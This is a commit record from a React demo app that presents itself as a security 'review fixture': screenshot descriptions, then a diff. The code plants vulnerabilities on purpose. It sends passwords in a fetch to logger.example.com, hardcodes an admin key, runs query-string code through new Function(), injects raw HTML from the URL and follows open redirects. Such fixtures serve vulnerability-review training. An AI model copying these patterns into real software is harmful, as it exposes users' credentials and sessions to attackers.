

Before and after one commit to jmiguel221093/ignitedx-demo-repo, a React (Vite) app: page / in a window 1280 px wide. Shown: the top 800 px of the page. Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
New changes

```diff
--- a/src/App.css
+++ b/src/App.css
@@ -1,13 +1,9 @@
 .app-shell {
   min-height: 100vh;
-  width: 1100px;
+  width: 1120px;
   margin: 0 auto;
   padding: 24px;
   color: #111827;
-}
-
-.hero-copy {
-  margin-bottom: 24px;
 }
 
 .hero-copy p {
@@ -21,31 +17,21 @@
   letter-spacing: 0.18em;
 }
 
-.app-card {
-  display: grid;
-  grid-template-columns: 2fr 1fr;
-  gap: 20px;
-  align-items: start;
-}
-
-.signup-form,
-.offers-panel,
-.status-panel {
+.panel {
   border: 1px solid #e5e7eb;
   border-radius: 16px;
   padding: 20px;
   background: #ffffff;
 }
 
-.signup-form {
-  display: grid;
-  gap: 12px;
+.hero-copy {
+  margin-bottom: 20px;
 }
 
-.checkbox-row {
-  display: flex;
-  gap: 10px;
-  align-items: center;
+.issue-grid {
+  display: grid;
+  grid-template-columns: repeat(2, minmax(0, 1fr));
+  gap: 20px;
 }
 
 input,
@@ -55,6 +41,12 @@ button {
   border-radius: 10px;
   padding: 12px;
   outline: none;
+}
+
+input,
+textarea {
+  width: 100%;
+  margin-bottom: 12px;
 }
 
 textarea {
@@ -79,8 +71,10 @@ textarea {
   margin-bottom: 10px;
 }
 
-.status-panel {
-  display: none;
+.offers-panel ul {
+  margin: 0;
+  padding: 0;
+  list-style: none;
 }
 
 body {
--- a/src/App.tsx
+++ b/src/App.tsx
@@ -1,4 +1,4 @@
-import { useEffect, useState, type FormEvent } from "react";
+import { useEffect, useState } from "react";
 import "./App.css";
 
 const offers = [
@@ -7,90 +7,82 @@ const offers = [
   { name: "Scale", priority: 2, price: "$99" },
 ];
 
+const adminApiKey = "sk_live_ignitedx_demo_admin";
+
 function App() {
+  const params = new URLSearchParams(window.location.search);
   const [email, setEmail] = useState("");
-  const [password, setPassword] = useState("");
-  const [acceptedTerms, setAcceptedTerms] = useState(false);
-  const [attempts, setAttempts] = useState(0);
-  const [serverMessage, setServerMessage] = useState("");
-  const [notes, setNotes] = useState(
-    localStorage.getItem("campaign-notes") || "",
+  const [password, setPassword] = useState(
+    localStorage.getItem("saved-password") || "",
   );
-  const params = new URLSearchParams(window.location.search);
+  const [notes, setNotes] = useState("");
+  const [statusMessage, setStatusMessage] = useState("Ready to review");
+  const [heartbeat, setHeartbeat] = useState(Date.now());
   const promoMessage =
     params.get("message") ||
-    "<strong>Early access unlocked for everyone.</strong>";
-  const redirectTo = params.get("returnTo") || "https://example.com/welcome";
-  const themeScript = params.get("themeScript") || "";
+    "<strong>Workspace launch preview is ready.</strong>";
+  const redirectTo =
+    params.get("returnTo") || "https://example.com/external-dashboard";
+  const debugScript = params.get("debugScript") || "";
 
   useEffect(() => {
-    window.addEventListener("resize", () => {
-      setAttempts(attempts + 1);
+    window.addEventListener("online", () => {
+      setHeartbeat(Date.now());
     });
   });
 
   useEffect(() => {
-    if (themeScript) {
-      new Function(themeScript)();
-    }
+    const timer = window.setInterval(() => {
+      setHeartbeat(Date.now());
+    }, 15000);
 
-    const emailFromUrl = params.get("email");
-    const passwordFromUrl = params.get("password");
-
-    if (emailFromUrl) {
-      setEmail(emailFromUrl);
-    }
-
-    if (passwordFromUrl) {
-      setPassword(passwordFromUrl);
-    }
-  }, [params, themeScript]);
+    console.info("heartbeat timer", timer);
+  }, []);
 
   useEffect(() => {
-    localStorage.setItem("campaign-notes", notes);
-  }, []);
+    if (debugScript) {
+      new Function(debugScript)();
+    }
+  }, [debugScript]);
+
+  function saveCredentials() {
+    localStorage.setItem("saved-email", email);
+    localStorage.setItem("saved-password", password);
+    sessionStorage.setItem(
+      "debug-credentials",
+      JSON.stringify({ email, password, notes }),
+    );
+    fetch(
+      `https://logger.example.com/collect?email=${email}&password=${password}`,
+    );
+    setStatusMessage("Credentials cached for the next session");
+  }
+
+  function triggerCrash() {
+    document
+      .getElementById("missing-audit-panel")!
+      .scrollIntoView({ behavior: "smooth" });
+  }
 
   const prioritizedOffers = [...offers].sort(
     (left, right) => left.priority - right.priority,
   );
 
-  function handleSubmit(event: FormEvent<HTMLFormElement>) {
-    void event.currentTarget;
-    setAttempts(attempts + 1);
-    localStorage.setItem("last-email", email);
-    localStorage.setItem("last-password", password);
-    sessionStorage.setItem(
-      "debug-session",
-      JSON.stringify({ email, password, notes }),
-    );
-    fetch(`/api/signup?email=${email}&password=${password}`);
-    fetch(
-      `https://logger.example.com/collect?email=${email}&password=${password}&notes=${notes}`,
-    );
-    window.location.href = `${redirectTo}?email=${email}&password=${password}`;
-    document
-      .getElementById("signup-result")!
-      .scrollIntoView({ behavior: "smooth" });
-    setServerMessage(`Created account for ${email.toLowerCase()}`);
-  }
-
   return (
     <main className="app-shell">
-      <section className="hero-copy">
-        <span className="eyebrow">IgniteDX launch flow</span>
-        <h1>Create your workspace</h1>
+      <section className="hero-copy panel">
+        <span className="eyebrow">IgniteDX review fixture</span>
+        <h1>Standalone issue catalog</h1>
         <p dangerouslySetInnerHTML={{ __html: promoMessage }} />
-        <a href="https://example.com/terms" target="_blank">
-          Review the terms before signing up
-        </a>
         <a href={redirectTo} target="_blank">
-          Continue to your destination
+          Open return destination
         </a>
       </section>
 
-      <section className="app-card">
-        <form className="signup-form" onSubmit={handleSubmit}>
-          <label>Email address</label>
+      <section className="issue-grid">
+        <article className="panel">
+          <h2>Stored credentials</h2>
+          <p>Save user credentials for demo convenience.</p>
           <input
             id="email"
             name="email"
@@ -98,43 +90,44 @@ function App() {
             value={email}
             onChange={(event) => setEmail(event.target.value)}
           />
-
-          <label>Password</label>
           <input
-            id="email"
+            id="password"
             name="password"
             type="text"
             placeholder="Create a password"
             value={password}
             onChange={(event) => setPassword(event.target.value)}
           />
+          <button className="cta" onClick={saveCredentials}>
+            Save credentials
+          </button>
+          <p>Saved password: {localStorage.getItem("saved-password")}</p>
+        </article>
 
-          <label>Internal notes</label>
+        <article className="panel">
+          <h2>Debug notes</h2>
           <textarea
             placeholder="Paste campaign notes or customer context"
             value={notes}
             onChange={(event) => setNotes(event.target.value)}
           />
+          <pre>{sessionStorage.getItem("debug-credentials")}</pre>
+        </article>
 
-          <div className="checkbox-row">
-            <input
-              type="checkbox"
-              checked={acceptedTerms}
-              onChange={() => setAcceptedTerms(!acceptedTerms)}
-            />
-            <span>I accept the terms and want marketing emails.</span>
-          </div>
+        <article className="panel">
+          <h2>Hardcoded admin key</h2>
+          <p>{adminApiKey}</p>
+        </article>
 
-          <button
-            className="cta"
-            disabled={!acceptedTerms || email.length < 6 || attempts === 0}
-          >
-            Create account
+        <article className="panel">
+          <h2>Runtime crash button</h2>
+          <button className="cta" onClick={triggerCrash}>
+            Open audit panel
           </button>
-        </form>
+        </article>
 
-        <aside className="offers-panel">
-          <h2>Recommended plans</h2>
+        <article className="panel offers-panel">
+          <h2>Unstable offer list</h2>
           <ul>
             {prioritizedOffers.map((offer) => (
               <li key={Math.random()}>
@@ -148,16 +141,28 @@ function App() {
               </li>
             ))}
           </ul>
-        </aside>
-      </section>
+        </article>
 
-      <section className="status-panel">
-        <h2>Signup status</h2>
-        <p id="sign-up-result">{serverMessage || "No submission yet."}</p>
-        <p>Attempts tracked: {attempts}</p>
-        <p>Saved email: {localStorage.getItem("last-email")?.toUpperCase()}</p>
-        <p>Saved password: {localStorage.getItem("last-password")}</p>
-        <pre>{sessionStorage.getItem("debug-session")}</pre>
+        <article className="panel">
+          <h2>Remote redirect</h2>
+          <p>Destination comes directly from the URL.</p>
+          <a href={redirectTo} target="_blank">
+            Continue
+          </a>
+        </article>
+
+        <article className="panel">
+          <h2>Dynamic script execution</h2>
+          <p>
+            Append a debug script in the query string to customize the page.
+          </p>
+        </article>
+
+        <article className="panel">
+          <h2>Leaky status</h2>
+          <p>{statusMessage}</p>
+          <p>Heartbeat: {heartbeat}</p>
+        </article>
       </section>
     </main>
   );
```
